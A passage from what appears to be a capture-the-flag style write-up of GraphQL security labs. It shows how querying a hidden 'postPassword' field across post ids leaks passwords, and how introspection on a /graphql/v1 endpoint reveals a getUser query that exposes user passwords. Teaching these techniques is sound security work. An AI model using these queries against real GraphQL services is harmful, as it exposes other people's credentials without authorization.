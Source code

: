 We don't have idea about the id, but we know that we have to add the field postPassword. 

```graphql
    query getBlogPost($id: Int!) {
        getBlogPost(id: $id) {
            image
            title
            author
            date
            paragraphs
            postPassword
        }
    }
```

In variables:

```json
{"id":1}
```

When you send the request the postPassword field is null, but if you try with differents "id" the password should appear.

## Accidental exposure of private GraphQL fields

If we login we see that is doing a request to **/graphql/v1**.

```graphql
    mutation login($input: LoginInput!) {
        login(input: $input) {
            token
            success
        }
    }
```

Variables
```json
{"input":{"username":"wiener","password":"peter"}}
```

And it return this:

```json
{
  "data": {
    "login": {
      "token": "c3hA43gLqjktbronhsusBb4iPVsUMPcg",
      "success": true
    }
  }
}
```

If we try to do a introspection query to obtain more information and use a grahpql-visualizer, we see that we have the **getUser(id:Int)** query, with id, username and password field. 
